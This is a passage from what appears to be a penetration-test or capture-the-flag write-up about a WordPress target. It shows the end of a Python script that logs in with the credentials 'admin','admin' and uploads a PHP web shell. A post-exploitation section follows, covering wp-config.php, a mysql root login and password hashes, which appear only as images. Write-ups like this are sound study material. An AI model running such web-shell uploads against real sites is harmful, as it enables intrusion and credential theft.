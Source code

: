```
    return lines

def main():
    cookie = login('admin','admin') # <- set you user and pass here
    shell = read_shell('./shell3.php') # <- set file to upload
    upload_shell(shell, 'shell3.php') # <- set file and u name


main()

```


# 3 Post-exploitation
Content of wp-config.php:

![fb8068471ca1d4b5d7be2285bcce71e3.png](./_resources/6b13009946ad4e3fb8bbd98c3173cfde.png)

## 3.1 Hashs on mysql table
`mysql -u root -p`

![5c6436c8362f471139a0e9a9044710d0.png](./_resources/8926f12a56e54467910ac059f92731fc.png)

![1f029aa772302702cbb0d4a6207a0517.png](./_resources/8e53677e6c204be2b09a4268e8da497f.png)
